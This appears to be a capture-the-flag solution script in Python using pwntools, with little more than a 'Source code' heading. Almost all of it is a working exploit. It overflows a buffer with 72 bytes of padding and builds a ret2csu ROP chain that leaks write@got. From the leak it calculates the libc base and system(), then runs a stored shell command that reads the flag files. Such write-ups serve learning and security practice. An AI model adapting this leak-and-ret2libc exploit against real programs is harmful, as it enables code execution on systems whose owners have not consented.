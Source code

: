 ```python
rop = ROP(e)

rl = lambda : r.recvline()
ru = lambda x : r.recvuntil(x)
inter = lambda : r.interactive()
sla = lambda x,y : r.sendlineafter(x,y)

def name_payload():
	# Payload that will be stored to the buffer.
	sla('>','cat flag*>&0\x00')
	#sla('>', '/bin/sh\x00') # Proof that shell will not work!

def gadgets(g1, g2, write_got, hidden_func): 
	payload = p64(g1) # gadget 1
	payload += p64(0) # pop rbx
	payload += p64(1) # pop rbp
	payload += p64(write_got) # pop r12
	payload += p64(1) # pop r13
	payload += p64(write_got) # pop r14
	payload += p64(0x8) # pop r15
	payload += p64(g2)  # ret (gadget 2)
	payload += p64(0)*7
	payload += p64(hidden_func) 
	return payload

def pwn():
	# Find addresses + gadgets
	g1 = 0x400b4a
	g2 = 0x400b30
	exit = e.symbols['exit']
	write_got = e.got['write']
	write_plt = e.plt['write']
	ret = rop.find_gadget(['ret'])[0]
	write_libc = libc.symbols['write']
	companion = e.symbols['companion']
	hidden_func = e.symbols['hidden_func']
	pop_rdi = rop.find_gadget(['pop rdi'])[0]

	# Store payload and call hidden
	name_payload()
	sla('>', '22')

	# Leak write@got and calculate libc base + system
	junk = b'A'*72
	payload = junk
	payload += gadgets(g1, g2, write_got, hidden_func)
	sla('>', payload)
	leaked = u64(rl()[1:9])
	base = leaked - write_libc
	sys = base + libc.symbols['system']
	
	# Print what we leaked
	print('Leaked: 0x{:x}'.format(leaked))
	print('Base:   0x{:x}'.format(base))
	print('System: 0x{:x}'.format(sys))

	# Send final payload and get flag
	payload = junk + p64(pop_rdi) + p64(companion)  + p64(ret) + p64(sys) + p64(exit)
	sla('>', payload)
	inter()

if __name__ == '__main__':
	pwn()
```